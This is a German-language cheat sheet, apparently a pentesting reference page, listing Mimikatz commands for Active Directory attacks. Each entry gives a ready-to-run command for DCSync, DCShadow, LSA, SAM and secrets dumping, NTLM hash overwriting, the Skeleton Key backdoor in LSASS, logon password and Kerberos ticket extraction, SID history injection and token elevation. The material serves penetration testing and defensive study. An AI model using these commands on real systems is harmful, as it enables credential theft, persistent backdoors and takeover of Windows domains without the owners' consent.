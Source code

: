 ### Active Directory Manipulation

- **DCShadow**: Temporär einen Computer als DC für die AD-Objektmanipulation agieren lassen.
- `mimikatz "lsadump::dcshadow /object:targetObject /attribute:attributeName /value:newValue" exit`

- **DCSync**: Einen DC nachahmen, um Passwortdaten anzufordern.
- `mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit`

### Zugriff auf Anmeldeinformationen

- **LSADUMP::LSA**: Extrahiert Anmeldeinformationen aus LSA.
- `mimikatz "lsadump::lsa /inject" exit`

- **LSADUMP::NetSync**: Einen DC mit den Passwortdaten eines Computer-Kontos nachahmen.
- *Kein spezifischer Befehl für NetSync im ursprünglichen Kontext angegeben.*

- **LSADUMP::SAM**: Zugriff auf die lokale SAM-Datenbank.
- `mimikatz "lsadump::sam" exit`

- **LSADUMP::Secrets**: Entschlüsselt Geheimnisse, die in der Registrierung gespeichert sind.
- `mimikatz "lsadump::secrets" exit`

- **LSADUMP::SetNTLM**: Setzt einen neuen NTLM-Hash für einen Benutzer.
- `mimikatz "lsadump::setntlm /user:targetUser /ntlm:newNtlmHash" exit`

- **LSADUMP::Trust**: Ruft Informationen zur Vertrauensauthentifizierung ab.
- `mimikatz "lsadump::trust" exit`

### Sonstiges

- **MISC::Skeleton**: Injiziert eine Hintertür in LSASS auf einem DC.
- `mimikatz "privilege::debug" "misc::skeleton" exit`

### Privilegieneskalation

- **PRIVILEGE::Backup**: Erwirbt Backup-Rechte.
- `mimikatz "privilege::backup" exit`

- **PRIVILEGE::Debug**: Erhält Debug-Rechte.
- `mimikatz "privilege::debug" exit`

### Anmeldeinformationen Dumping

- **SEKURLSA::LogonPasswords**: Zeigt Anmeldeinformationen für angemeldete Benutzer an.
- `mimikatz "sekurlsa::logonpasswords" exit`

- **SEKURLSA::Tickets**: Extrahiert Kerberos-Tickets aus dem Speicher.
- `mimikatz "sekurlsa::tickets /export" exit`

### SID- und Token-Manipulation

- **SID::add/modify**: Ändert SID und SIDHistory.
- Hinzufügen: `mimikatz "sid::add /user:targetUser /sid:newSid" exit`
- Ändern: *Kein spezifischer Befehl für die Änderung im ursprünglichen Kontext angegeben.*

- **TOKEN::Elevate**: Tokens nachahmen.
- `mimikatz "token::elevate /domainadmin" exit`
